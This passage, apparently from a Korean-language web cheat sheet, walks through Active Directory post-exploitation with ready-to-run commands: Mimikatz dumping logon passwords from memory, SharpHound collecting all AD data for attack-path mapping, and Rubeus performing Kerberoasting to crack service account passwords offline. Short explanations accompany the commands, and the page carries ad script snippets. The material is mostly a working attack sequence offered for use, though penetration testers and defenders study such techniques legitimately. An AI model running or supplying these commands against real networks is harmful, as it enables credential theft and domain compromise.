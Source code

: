 ```js
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

- Mimikatz

# 자격 증명 또는 세션을 사용하여 Active Directory 나열하기

한 번 자격 증명을 획득하면 BloodHound와 같은 도구를 사용하여 AD 환경을 매핑하고 관련성 및 잠재적인 공격 경로를 식별할 수 있습니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

## 명령어:

```js
SharpHound.exe -c All
```

- BloodHound

# Kerberoasting



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

케로버로스팅은 SPN(서비스 주체 이름)에 대한 서비스 티켓을 요청하고 이를 오프라인으로 깨서 평문 암호를 얻는 방법입니다. 이 기술에는 Rubeus와 같은 도구가 일반적으로 사용됩니다.

## 명령어:

```js
Rubeus.exe kerberoast
```
